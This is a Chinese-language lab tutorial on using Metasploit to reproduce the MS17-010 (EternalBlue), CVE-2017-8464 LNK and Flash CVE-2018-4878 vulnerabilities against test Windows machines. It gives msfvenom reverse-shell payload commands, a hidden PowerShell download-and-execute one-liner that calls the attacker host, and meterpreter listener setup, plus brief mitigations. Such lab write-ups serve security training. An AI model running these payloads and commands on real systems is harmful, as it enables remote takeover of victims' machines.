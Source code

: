 ```yaml
---
slug: /net-security/10/10
---
```




Kali MSF（The Metasploit Framework），开源的漏洞利用和测试工具。

MSF 提供 MSFconsole 接口：

![](http://img.wukaipeng.com/2024/02/06-235229-gbrJi1-image-20240206235227871.png)

## MS17-010 漏洞

### 漏洞描述

永恒之蓝漏洞（MS17-010），它的爆发源于 WannaCry 勒索病毒的诞生，该病毒是不法分子利用 NSA（National Security Agency，美国国家安全局）泄露的漏洞“EternalBlue”（永恒之蓝）进行改造而成。

该漏洞可以通过 TCP 的 139 和 445 端口，攻击 Windows 系统的 SMB 服务，造成远程代码执行。

MS17-010 漏洞主要是针对于 Windows7 及以前的操作系统。

### 漏洞复现

Win7 需要满足这四个条件：

1. 关闭防火墙
2. 使用 SMBv1 协议
3. 缺少 MS17-010 补丁
4. 允许匿名 IPC &dollar; 和管道符 

> 从 MSDN 下载的镜像默认满足第 2、3 点
>
> 对于第 4 点，用 `window + R` 打开 run 程序，输入 `gpedit.msc` 打开本地策略编辑器
>
> 关闭「限制对命令管道和共享的匿名访问」：
>
> ![](http://img.wukaipeng.com/2024/02/08-235041-pDmfFl-image-20240208235041088.png)
>
> 改完之后重启电脑



首先进入 msfconsole

```bash
msfconsole
```

接下来搜索该漏洞利用，可以搜到四个可利用模块，先用第一个：

```bash
search MS17-010
use 0
```

查看所需的配置

```bash
show options
```

设置一下缺少的配置：



![](http://img.wukaipeng.com/2024/02/08-235705-lRXkJy-image-20240208235705660.png)

```bash
set rhosts 172.16.26.1
```

攻击

```bash
exploit
```



修复方法：

1️⃣ 部署安全产品

2️⃣ 打补丁

3️⃣ 关端口

4️⃣ Windows 防火墙做白名单策略

## 远程命令执行漏洞 CVE-2017-8464（震网三代）

### 漏洞描述

2017 年 6 月 13 日，微软官方发布编号为 CVE-2017-8464 的漏洞公告，官方介绍 Windows 系统在解析快捷
方式时存在远程执行任意代码的高危漏洞，黑客可以通过 U 盘、网络共享等途径触发漏洞，完全控制用
户系统，安全风险高危。

Windows 系统使用二进制解析。LNK 文件，当恶意二进制代码被系统识别执行时即可实现远程代码执行，
由于是在 explorer.exe 进程中运行，所以 load 进内存时与当前用户具有相同权限。

攻击者利用这一解析过程将包含恶意二进制的代码附带进可移动驱动器（或远程共享过程中），受害者
使用 powershell 解析 .LNK 文件后即被黑客所控制。

成功利用此漏洞的攻击者可能会获得与本地用户相同的用户权限。

### 漏洞利用

1. 在 kali 中利用 msfvenom 生成一个反弹 shell

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.16.26.129 lport=4444 -f psh-reflection > ~/magedu.ps1
```

![](http://img.wukaipeng.com/2024/02/08-175726-y2WWfT-image-20240208175725260.png)

在 Home 目录可以看到新生成的 `magedu.ps1` 文件

将该文件复制到 `/var/www/html` 文件夹中，目的是让该木马文件被访问

```bash
cp ~/magedu.ps1 /var/www/html 
```

在 kali 中启动 Apache 服务（默认端口为 80）

```bash
service apache2 start
```

启动后在目标机器上可访问该地址到 `megadu.psq` 木马文件：

![](http://img.wukaipeng.com/2024/02/08-230617-vbqQTv-image-20240208230617185.png)

接着在目标机器上创建快捷方式：

```
powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://172.16.26.129/magedu.ps1');test.ps1"
```

![](http://img.wukaipeng.com/2024/02/08-230541-drFSv2-image-20240208230541033.png)

在 kali 创建反弹 shell：

```bash
msfconsole
use exploit/multi/handler   //侦听模块
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.26.129
show options
```

在目标机器上打开快捷方式，kali 这边就能看到已经攻击成功了：

![](http://img.wukaipeng.com/2024/02/08-230807-XTDY8x-image-20240208230807213.png)

输入 `screenshot` 命令，可以看到截图成功：

![](http://img.wukaipeng.com/2024/02/08-232542-8cWNkk-image-20240208232542173.png)

## Flash 漏洞 CVE-2018-4878

### 漏洞描述

2018年2月1号，Adobe官方发布安全通报（APSA18-01），声明 Adobe Flash 28.0.0.137 及其之前的版本，存在高危漏洞（CVE-2018-4878）。

攻击者通过构造特殊的Flash链接，当用户用浏览器/邮件/Office访问此 Flash 链接时，会被“远程代码执行”，并且直接被 getshell。

参考链接：https://blog.51cto.com/chenxinjie/2093653

### 漏洞利用

下载工具：

生成攻击代码

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.26.129 lport=4445  -f python>magedu_shellcode.txt
```

将生成代码替换到 python脚本中：

![](http://img.wukaipeng.com/2024/02/13-140651-EiUoJO-image-20240213140651325.png)



执行脚本：

![](http://img.wukaipeng.com/2024/02/13-140746-MF6F8s-image-20240213140746713.png)

将生成的脚本复制到  `/var/www/html` 中，并启动 apache 服务器

![](http://img.wukaipeng.com/2024/02/13-141103-V53UJz-image-20240213141103378.png)

```
service apache2 start
```

启动监听

```
msfconsole                         
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 172.16.26.129               
set lport 4445
exploit
```



目标机器上安装 Flash

![](http://img.wukaipeng.com/2024/02/13-140452-kjifgr-image-20240213140452183.png)

在目标机器上打开 `172.16.26.129/index2.html`

![](http://img.wukaipeng.com/2024/02/13-140538-NZ6GrL-image-20240213140538664.png)

利用成功：

![](http://img.wukaipeng.com/2024/02/13-134936-TTJ3ak-image-20240213134935625.png)











1













